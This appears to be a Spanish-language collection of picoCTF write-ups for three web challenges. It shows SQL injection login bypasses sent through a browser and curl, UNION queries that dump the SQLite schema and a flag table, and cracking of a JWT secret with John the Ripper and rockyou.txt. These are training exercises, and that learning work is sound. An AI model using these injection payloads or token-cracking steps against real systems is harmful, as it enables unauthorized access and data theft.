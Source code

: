 
# Irish-Name-Repo 1

There is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
Try to think about how the website verifies your login.


## Desde navegador

1. Ingresamos a la página
2. No tenemos la contraseña para ingresar
3. Inspeccionar
4. Cambiamos el valor del campo debug de 0 a 1
```
 <input type="hidden" name="debug" value="0">
 <input type="hidden" name="debug" value="1">
```
5. Volvemos a lanzar la petición de acceso
6. Seguimos sin poder ingresa pero conocemos la forma en la que se valida el usuario
```
username: admin
password: holamundo (yo la ingrese)
SQL query: SELECT * FROM users WHERE name='admin' AND password='holamundo'

# Login failed.
```
7. Usamos una inyección SQL básica y obtenemos la bandera
```
username: admin
password: ' or 1==1;

output:
# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

Al usar la sentencia `' or 1==1;` obtenemos la sentencia query `SELECT * FROM users WHERE name=='admin' AND password=='' or 1==1;'`, la cual es verdadera y permite el acceso.


## Desde consola

1. Abrimos una terminal
2. Usamos el comando curl
```
curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=holamundo&debug=1"
```
Aunque el link original es .html, lo cambiamos a .php porque en el código fuente pudimos ver que la petición se redirecciona a este sitio
```
<form action="[login.php](view-source:https://jupiter.challenges.picoctf.org/problem/33850/login.php)" method="POST">
```
3. Usamos la inyección
```
curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1==1;&debug=1"
```
4. Obtenemos la bandera
```
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>  
```


**Fuentes:**

- [Video explicación](https://www.youtube.com/watch?v=0EDbUSDqrng&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=7&t=47s)
- [sql injection](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbDVrMVIzb2RYUm14MVdrUnlXTFR4OUNQZWpvd3xBQ3Jtc0ttS1IwNXpNZzBuT3hVY1NYR0E2SlFvYmc5S2xtdHBrSnByd3hxVTZFak13b3FsVlBBbFU4V2N1UU5nSmtaSnVKUUFEUGl3aGp5My02clVPV004dVoxNzhCTmtSVUhqM1dJOXBlTUpNcjV6dFlyeUU3OA&q=https%3A%2F%2Fwww.w3schools.com%2Fsql%2Fsql_injection.asp&v=0EDbUSDqrng)



# More SQLi

Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:54524/).

## Desde navegador

1. Vamos a la página
2. Intentamos ingresa con un usuario y contraseña random
```
username: admin
password: holamundo
SQL query: SELECT id FROM users WHERE password = 'holamundo' AND username = 'admin'
```
3. Probamos con la inyección `' or 1==1;La inyección SQL varía según el motor de la base de datos.`
4. Ingresamos. Ahora debemos encontrar la bandera en alguna tabla de la base de datos.
5. Primero, debemos conocer la versión del motor. Ingreamos los comandos en el campo de búsqueda.
```
' union select sqlite_version(),2,3...[n columna];

output: 3.31.1
```
6. Intentamos con dos comando para extraer la estructura de las tablas
```
' union select sql,2,3 from sqlite_schema;

output: None
```

```
' union select sql,2,3 from sqlite_master;

output: obtenemos la estructura y encontramos una tabla que podría estar relacionada con el reto
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```
7. Extraemos los datos de la tabla
```
' union select id,flag,3 from more_table;
```
8. Encontramos la bandera
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}
```


## Desde BurpSuite

1. Ingresamos a la página
2. Interceptamos la inyección
3. Vamos la solicitud inicial
4. Vamos a la respuesta
5. Obtenemos la bandera


**Fuentes:**
- [Video explicación](https://www.youtube.com/watch?v=clMe4yqL6yU)
- [Web Explotation - More SQLi](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbG92dmhFUXdpUVE4RklFTUhvMHNBYlhqeldjQXxBQ3Jtc0ttYUxQWUdLcFRoNFhiRWhEcUlibWFNTGw0ZDh5azNVM3F5VlpZdDZ3T1NUTWhFeG5qX2xOamRzTmZCelZjNHVOaGN0MlJmdU9oYWlWY2E0TF9RclpySG0wREp2TkxkTWU4Q3hJWWlkbG1sWUxCTG5FYw&q=https%3A%2F%2Fplay.picoctf.org%2Fpractice%2Fchallenge%2F358&v=clMe4yqL6yU)



# JaWT Scratchpad

Internal server errors can be intentionally returned by this challenge. If you experience one, try clearing your cookies.
What is that cookie?
Have you heard of JWT?

1. Ingresamos a la página
2. No nos permite usar el nombre de usuario 'admin' para ingresar
3. Accedemos con otro nombre de usuario
4. Revisamos las cookies
5. Buscamos el token jwt y lo copiamos
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2FpbG9yayJ9.PJjfmTRDNYPGIhi_ZtoCUPQ1DKOTl1oAAUtB8Ypd6E0
```
5. Vamos a la jwt.io y pegamos en la parte de debugger para decodificarlo
6. Asignamos "admin" en user. Copiamos el nuevo token
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
```
7. Enviamos otra petición con el nuevo token
```
output: 
# Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```
La cookie no se puede cambiar tan fácil, tiene un password que no conocemos. Así que tendremos que crakearla.
8. Borramos la cookie modificada y volvemos a hacer una petición
9. Copiamos la cookie original y la pegamos en un archivo en terminal
```
nano [nombre_archivo]

cat [nombre_archivo]
output: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2FpbG9yayJ9.PJjfmTRDNYPGIhi_ZtoCUPQ1DKOTl1oAAUtB8Ypd6E0 
```
10. Haremos un ataque de diccionario. Revisamos la lista de palabras de palabras para probar
```
ls /usr/share/wordlists
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
11. Revisamos lo que hay dentro de rockyou.txt
```
head /usr/share/wordlists/rockyou.txt

output:
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
```
12. Instalamos la herramienta de crakeo 
```
sudo apt install john  
```
13. Ingresamos la cookie en John
```
john [nombre_archivo] -w-/usr/share/wordlists/rockyou.txt
```


**Fuentes:**
- [Video explicación](https://www.youtube.com/watch?v=iaKbvrbcSko)
- [Web - JaWT Scratchpad](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa1JxbzdMdmVkbmpjSTZsZ2otT0xDZXZQTF9PUXxBQ3Jtc0trRENPR2k1RG1jNFNPQkZZZXFscXYyQ2JvVTdaX255YnVKTXRzNkk4QzB3UnFhZXg3OHRka05xQ2RBdS1LWWQyMXh4WkNsWWVscG84dFVfSmF3ODhmSGFXY0dpcnhOUWFkYTFNdEg3dDFscm44ZG1Caw&q=https%3A%2F%2Fplay.picoctf.org%2Fpractice%2Fchallenge%2F25&v=iaKbvrbcSko)
- [Herramienta para craking](https://github.com/openwall/john)